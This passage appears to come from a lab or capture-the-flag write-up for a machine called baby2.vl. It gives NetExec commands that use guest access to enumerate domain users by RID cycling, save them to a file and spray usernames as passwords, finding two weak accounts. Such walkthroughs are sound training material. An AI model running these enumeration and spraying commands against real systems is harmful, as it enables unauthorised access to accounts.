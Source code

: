 But since guest can enumerate share then it can also be used to pull user list via RID cycling method as well.
```
nxc smb baby2.vl -u 'guest' -p '' --rid-brute
```
![67e425e4616704aec2b2ef16f9433cbc.png](/resources/67e425e4616704aec2b2ef16f9433cbc.png)

Now we add them to a text file so we can start password spraying if we find one.
```
nxc smb baby2.vl -u 'guest' -p '' --rid-brute | grep SidTypeUser | cut -d'\' -f2 | cut -d' ' -f1 | tee users
```
![bdde57c629cb3abd871317fee78ad294.png](/resources/bdde57c629cb3abd871317fee78ad294.png)

But since there is no other place I could look for, I use NetExec to test if there is any user that used their username as a password which I found 2 users here and they are "Carl.Moore" and "library" users
```
nxc smb baby2.vl -u users -p users --no-bruteforce --continue-on-success
```